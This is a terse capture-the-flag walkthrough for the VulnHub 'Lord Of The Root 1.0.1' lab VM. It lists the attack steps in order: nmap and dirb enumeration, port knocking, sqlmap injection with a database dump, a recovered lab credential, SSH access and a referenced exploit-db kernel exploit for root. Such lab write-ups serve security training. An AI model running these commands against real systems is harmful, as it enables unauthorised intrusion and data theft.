 

# Lord Of The Root: 1.0.1 Walkthrough 

**VulnHub Link:** [Lord Of The Root: 1.0.1](https://www.vulnhub.com/entry/lord-of-the-root-101,129/)
**Difficulty:** Easy
**Release Date:** 23 Sep 2015

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```


knock -v 192.168.100.108 1 2 3

http://192.168.100.108:1337 opened

http://192.168.100.108:1337/sam --> view page source ---> base64 encoding found

http://192.168.100.108:1337/978345210/index.php

## 3.Exploitation

sqlmap -u 'http://192.168.100.108:1337/978345210/index.php' --dbs --forms --risk 3 --level 5 --batch

sqlmap -u 'http://192.168.100.108:1337/978345210/index.php' --dbs --forms --risk 3 --level 5 --batch -D Webapp --dump

usernames and passwords found

smeagol --> MyPreciousR00t 

## 4.Post Exploitation

with ssh , 39166.c from exploit-db --> executed

root shell opened and root flag captured
